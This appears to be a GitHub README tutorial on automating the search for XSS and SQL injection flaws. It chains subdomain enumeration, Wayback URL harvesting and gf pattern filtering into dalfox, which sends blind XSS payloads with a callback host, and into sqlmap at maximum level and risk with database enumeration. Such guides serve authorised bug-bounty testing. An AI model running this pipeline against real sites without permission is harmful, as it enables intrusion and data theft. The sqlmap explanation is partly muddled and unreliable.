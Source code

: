 # AutomationGuide
Learn how to automate XSS, SSRF, LFI, SQLI, NoSQLi

## Tools needed for automation

* <a href="https://github.com/projectdiscovery/subfinder">Subfinder</a>
* <a href="https://github.com/projectdiscovery/httpx">httpx</a>
* <a href="https://github.com/tomnomnom/waybackurls">waybackurls</a>
* <a href="https://github.com/sqlmapproject/sqlmap">sqlmap</a>
* <a href="https://github.com/hahwul/dalfox">dalfox</a>
* <a href="https://github.com/tomnomnom/qsreplace">qsreplace</a>
* <a href="https://github.com/ffuf/ffuf">ffuf</a>
* <a href="https://github.com/Charlie-belmer/nosqli">nosqli</a>
* <a href="https://github.com/tomnomnom/gf">gf</a>
* <a href="https://github.com/1ndianl33t/Gf-Patterns">Gf_Patterns</a>

## XSS automation 

You can automate XSS by the following steps:

**STEP 1**<br>

*Find the subdomains of the target:*

```
$ subfinder -d example.com | tee -a domains.txt
```
`-d` is to specify the target domain and `tee -a domains.txt` will save the output to a file.

**STEP 2**<br>
*Find the domains that are alive:*
```
$ cat domains.txt | httpx | tee urls.alive 
```
`cat domains.txt` will open the file and `httpx` will find the domains that are alive and `tee urls.alive` will save the output to a file.

**STEP 3**<br>
*Fetch known URLs from the Wayback Machine:*
```
$ cat urls.alive | waybackurls | tee wayback.urls
```
`cat urls.alive` will open the file and `waybackurls` will fetch the URLs from Wayback Machine and `tee wayback.urls` will save the output to a file. 

**STEP 4**<br>
*Find the XSS pattern URLs from wayback.urls:*
```
$ gf xss wayback.urls >> urls.xss
```
`gf xss` is to specify that you have to find the URLs that have XSS patterns from `wayback.urls` file and `>> urls.xss` will save the output to a file.

**STEP 5**<br>
*Find XSS using dalfox:*
```
$ dalfox -b hahwul.xss.ht file urls.xss
```
`-b` is to specify the blind XSS payload and `file urls.xss` is the file that contains XSS pattern URLs. 

## SQL injection automation
You can automate SQL injection by the following steps:

* NOTE: The steps are same as XSS upto STEP 3 

**STEP 4**<br>
*Find the SQLI pattern urls from wayback.urls:*
```
$ gf sqli wayback.urls >> urls.sqli
```
`gf sqli` is to specify that you have to find the URLs that have SQLI patterns from `wayback.urls` file and `>> urls.sqli` will save the output to a file.

**STEP 5**<br>
*Find SQL injection using sqlmap*
```
$ sqlmap -m urls.sqli --level 5 --risk 3 --batch --dbs --tamper=between 
```
`-m` is to specify the multiple targets file which is `urls.sqli`, `--level 5` will increase the level of scanning and exploitation, `--risk 3` allows the type of payloads used by the tool. By default, it uses value 1 and can be configured up to `level 3`. Level 3, being the `maximum`, includes some `heavy SQL queries`. The level defines the number of `checks/payload` to be performed.  



